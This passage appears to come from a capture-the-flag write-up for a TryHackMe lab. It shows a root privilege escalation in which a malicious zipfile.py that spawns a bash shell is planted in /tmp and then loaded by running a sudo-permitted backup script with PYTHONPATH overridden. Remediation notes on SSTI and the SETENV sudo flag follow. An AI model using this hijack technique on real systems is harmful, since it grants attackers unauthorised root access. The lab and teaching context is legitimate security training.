 We don't have read or write permissions to `/opt`, `/opt/backup.py`, or `/home/manager` that the script if referencing but taking a look at the top of the `backup.py` we can see it is importing a few packages.  This means we should be able to import our own package instead of original ones.

```python
from datetime import datetime
from pathlib import Path
import zipfile
---snip---
```

The `SETENV` permission lets us set the `PYTHONPATH` which dictates a directory that Python will use to search for packages.

### zipfile.py

Getting the backup script to run our own code is quite simple.

1. Create `zipfile.py` with the code we want to execute.
 ```bash
echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py
```

2. Run command
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
```

3. Collect flag
```bash
root@vulnnet-dotpy:/tmp# cat /root/root.txt 
THM[REDACTED]
```

## [08] Remediation

In this section we will talk about a few ways to mitigate the risks and vulnerabilities that we found in the system.

### SSTI
There was a good attempt to blacklist several characters from our URL requests. A simple fix here would not to to return any user input on the `404` error page.

### Backup Script
Removing `SETENV` permission from `sudo` will mitigate this issue.  Another fix would be to use another backup program instead of a custom Python script.

